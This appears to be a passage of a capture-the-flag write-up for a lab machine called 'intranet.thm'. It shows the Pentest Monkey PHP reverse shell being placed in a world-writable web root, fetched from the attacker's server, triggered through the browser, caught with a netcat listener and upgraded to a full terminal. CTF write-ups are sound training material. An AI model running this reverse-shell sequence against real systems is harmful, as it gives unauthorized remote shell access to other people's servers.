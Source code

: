 ```bash
devops@...:/var/www/html$ ls -lah
total 12K
drwxrwxrwx 2 root root 4.0K Nov  7  2022 .
drwxr-xr-x 3 root root 4.0K Oct 16  2022 ..
-rw-r--r-- 1 root root  111 Nov  7  2022 index.html
```

<p>

-  <a href="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php">Pentest Monkey PHP Reverse Shell</a></p>

```bash
(rosana) :~/Intranet# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```

```bash
(rosana) :~/Intranet# mv php-reverse-shell.php r.php
```

```bash
devops@...:/var/www/html$ wget http://xx.xxx.xxx.xxx:8000/r.php
```

<p>
  
- intranet.thm/r.php</p>


```bash
:~/Intranet# nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on ... 49096
Linux ... 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 22:46:28 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(anders) gid=1000(anders) groups=1000(anders),24(cdrom),27(sudo),30(dip),46(plugdev)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

anders@...:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/Intranet# stty raw -echo; fg
nc -nlvp 1234

anders@...:/$ export TERM=xterm
```

```bash
anders@...:/$ id
uid=1000(anders) gid=1000(anders) groups=1000(anders),24(cdrom),27(sudo),30(dip),46(plugdev)
anders@...:/$ pwd
/
```
